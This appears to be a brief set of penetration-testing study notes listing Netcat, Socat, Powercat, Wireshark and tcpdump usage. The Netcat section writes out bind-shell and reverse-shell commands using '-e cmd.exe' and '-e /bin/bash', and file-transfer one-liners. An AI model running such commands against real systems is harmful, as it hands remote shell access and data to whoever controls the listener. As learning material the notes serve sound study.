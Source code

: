 ## Netcat
* Connect to server
    -nv 
        -n skip DNS name resolution
        -v verbose
* Listen on a Port
    nc  -nlvp [port]
        -l create a listner,  -p [Port]
* File Transfer
    Receiving:  nc -lvnp [port]  > [filename]
    Sending: nc -nv [ip] [port] < [file]>
* Remote Admin bind
    Host:nc -nlvp [port] -e cmd.exe
    Remote:  nc -nv [ip] [port]
* Reverse Shell
    Remote:  -nlvp [port]
    Host: nc  -nv [ip] [port] -e /bin/bash

## SoCat
* Supports SSL communication
    -use OPENSSL to create cert
    

## Powercat
Powershell version of Necat
apt install powercat to place it in /usr/share/windows-resources/powercat

## Wireshark
Analyze network traffic

## TCPDUMP
Text based network sniffer
 -n skip DNS name
 -r read from our captuer file
 